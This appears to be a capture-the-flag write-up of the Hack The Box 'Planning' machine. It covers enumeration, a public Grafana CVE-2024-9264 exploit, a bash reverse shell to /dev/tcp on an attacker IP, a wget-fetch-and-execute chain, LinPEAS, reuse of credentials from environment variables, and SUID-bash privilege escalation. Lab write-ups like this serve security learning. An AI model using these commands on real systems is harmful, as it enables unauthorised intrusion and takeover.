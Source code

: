 # Planning

##  Initial Enumeration

Trying to see all the active services using:

```bash
nmap -p- -sV -sC --min-rate 500 10.10.11.68
```

Results show an SSH service and a HTTP server.  
The HTTP server redirects to:  
**http://planning.htb/**

Now added the `http://planning.htb/` and `10.10.11.68` to `/etc/hosts` so that it shows the site.

##  Gobuster and Directory/Subdomain Discovery

Used `gobuster` to check for any subdomains and also any directories but nothing useful.

I found a PHP file called `details.php` which takes you to an `enroll.php` that contains a form for fullname, email, and phone no.  
Except for email, nothing is validated.  
Tried to pass quotes to try for SQL injection to get an error but only showing “successful”.

Tried subdomain fuzzing - no dice with `bug-bounty-program-subdomains-trickest-inventory.txt`

Directory fuzzing - got nothing useful.

Checked online for any hints - there was a hint to keep trying subdomain fuzzing with other wordlists.

##  Switching Tools - Trying FFUF

I am going to try using `ffuf` instead of gobuster this time:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://planning.htb' -H "Host:FUZZ.planning.htb"
```

Found a `grafana` subdomain 🎯

##  Grafana Vulnerability & Exploitation

Checked the version of Grafana using `/api/health` - got response with version as `v11.0.0`

Googled for any vulnerabilities for this particular version and found:  
**CVE-2024-9264**

Found a working exploit at:  
https://github.com/nollium/CVE-2024-9264.git

Cloned it and used:

```bash
python3 CVE-2024-9264.py -u user -p user -c <shell-cmd> <url>
```

Passed `id` in the `-c` and I see that I have **root access**

##  Reverse Shell Setup

Now I am going to do reverse shell.

Started a port using:

```bash
nc -lvnp 4444
```

Created a file:

```bash
echo bash -i >& /dev/tcp/10.10.14.96/4444 0>&1 > shell.sh
```

Hosted it using:

```bash
python3 -m http-server 8000
```

Then passed this `wget` command through duckdb using the CVE exploit:

```bash
wget http://10.10.14.96:8000/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && bash /tmp/shell.sh
```

We got the shell access 🎉

Went through most files, couldn’t find a user flag or root flag.

##  Post Exploitation - LinPEAS & Enumeration

Looks like this is not it. Need to run **LinPEAS** to check.

Downloaded `linpeas.sh` in attacker machine, hosted it same as the shell file, and used `wget` from reverse shell.

Then did:

```bash
chmod +x linpeas.sh
```

First time using linpeas so had to research what to check.

Could see that we are in a **Docker container** and not on the host — container escape maybe?

In the LinPEAS report I could see all the env variables and in it I found some interesting stuff:

```env
[redacted]
[redacted]
```

## 🔐 SSH Access

Tried it in the Grafana login - no dice.

Tried it as an SSH user for the SSH found during Nmap enumeration:

```bash
ssh enzo@<IPADDRESS>
```

Put in the password — I’m **logged in** 🧑‍💻  
**Found my first user flag** for an active machine!

## ⚙️ Privilege Escalation

Ran `linpeas` again — noticed there was a file with **SUID attached**:

```bash
/tmp/bash
```

Ran:

```bash
/tmp/bash -p
```

Got **root access** 🎯

```bash
cat /root/root.txt
```

**Got the root flag** — Machine **pawned** 💀
